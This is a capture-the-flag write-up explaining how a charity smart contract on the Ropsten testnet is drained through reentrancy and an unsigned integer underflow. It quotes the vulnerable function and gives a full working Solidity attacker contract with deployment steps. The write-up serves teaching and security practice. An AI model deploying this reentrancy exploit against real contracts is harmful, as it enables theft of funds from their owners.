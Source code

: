 # Writeup - Velgørenhed (Blockchain - Underflow & Reentrancy)
## We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
We are first going to take a look at the smart contract to look for any potential vulnerabilities. When looking through the smart contract (We can also just use a tool like [slither](https://github.com/crytic/slither) to analyze the contract for us).
The function donateToContract has our interest.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

The interesting part about this function is the two last lines. The function does a call before changing the donatorBalance variable. The solidity code is run synchronously, so the next line of code wont run untill the line before has fully executed. This can be exploited because we can setup a fallback function that runs when we receive the call from this function. We receive the call before our donator balance has changed. So in our fallback function we are able to run other functions in the smart contract before the donator balance is changed in the donateToContract function. If we execute the withdraw function before donator balance has been changed by donateToContract our donatorBalance will be 0 before donateToContract will subtract the amount. When we subtract something from 0 and we have an unsigned integer we will wrap around and create a underflow thus setting our donatorBalance to a very high value. 
Illustration:
![Illustration](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Illustration.png)

#### Execution
To execute the smart contract functions we are going to use [Ethereum remix](https://remix.ethereum.org/). We are going to create two files. An attack.sol file and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrancy attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runs right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance which is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _charityAddress) {
        charity = Charity(_charityAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

##### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

##### Executing on the blockchain
To execute the attack function on the blockchain we need a wallet with Ropsten testnet ethereum. You can get testnet ethereum by using faucets on the internet. Then we are going to use metamask and connect it to ethereum remix by selecting injected web3. We then deploy our attack contract and execute the attack function with 0.1 ether. This will transact the attack on the Ropsten testnet and empty our contract.

#### Results
We have withdrawn the funds from the contract and we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
